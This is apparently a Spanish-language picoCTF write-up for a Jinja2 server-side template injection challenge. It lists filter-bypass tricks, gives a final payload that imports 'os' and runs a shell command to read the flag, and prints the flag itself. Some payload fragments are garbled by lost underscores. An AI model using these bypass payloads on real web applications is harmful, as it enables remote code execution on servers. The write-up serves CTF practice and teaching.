 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:52849/)!

Ahora el sitio web se ha vuelto seguro a partir de simples cargas útiles y necesitamos eludir su protección. Uso de diferentes símbolos y nuevos comandos.

# *Técnicas clave de derivación*

1. Evitar la notación de puntos ('.') → utiliza '|attr()' para acceder dinámicamente a los atributos:  
  
request|attr('application')|attr("_globals_")  
  
— Omite los WAF que bloquean 'request.application._globals_'.

> 2. Codificación hexadecimal ('\x5f') para guiones ('_')  
>   
> bajos "\x5f\x5fglobals\x5f\x5f"  
>   
> — Omite los filtros que bloquean '_globals', 'builtins' y 'import_'.
> 
> 3. Usando '_getitem_()' en lugar de '[]'  
> jinja2  
> |attr('_getitem')('builtins_')  
>   
> — Evade las protecciones que bloquean '_builtins['import_']'.

4. Jinja2 Sandbox Escape  
: accede a 'request.application._globals_' para obtener las funciones integradas de Python.

> 5. RCE sin 'eval()' o 'exec()'  
>   
> _import_('os').popen('id').read()  
>   
> — Evita los bloqueos 'os.system()' y 'subprocess. Popen()'.

*Nuestra carga útil final:*

> {{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}

**Respuesta en el formato del concurso:**
picoCTF{sst1_f1lt3r_byp4ss_8b534b82}